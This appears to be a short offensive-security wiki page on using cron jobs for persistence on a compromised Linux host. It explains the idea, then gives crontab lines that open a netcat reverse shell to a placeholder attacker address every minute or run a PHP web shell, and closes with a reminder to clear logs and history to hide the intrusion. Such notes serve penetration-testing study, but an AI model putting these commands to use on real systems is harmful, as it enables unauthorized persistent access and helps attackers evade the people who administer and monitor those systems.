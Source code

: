 --- ---

<h2>General</h2>

In computer systems, a cron job is a task that is scheduled to run automatically at a specified time or interval. Cron jobs are typically used to perform system maintenance tasks, such as backing up data or updating system software.

Persistence exploitation refers to the use of a vulnerability in a system to allow an attacker to maintain a persistent presence on the system, even after the system has been restarted or the attacker has been disconnected. This can be achieved through the use of cron jobs by scheduling a task to run at regular intervals and establish a connection back to the attacker's system.

For example, an attacker could exploit a vulnerability in a web server to install a cron job that runs a script every hour to establish a reverse shell connection back to the attacker's system. This would allow the attacker to maintain access to the compromised system even if the web server is restarted or the attacker's initial connection is terminated.

---

<h2>Commands</h2>

Check the cron jobs running & Edit the crons jobs
```
cat /etc/crontab

* * * * * nc -e /bin/bash Attacker_IP PORT 2>/dev/null  ---> Every minutes

or run a file where you might have a reverse sheel

* * * * * php -f /var/www/html/Evilbackup.php ---> Check Web shell section for more information
```
- Not very anonymous since administrator can see IP in the script



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===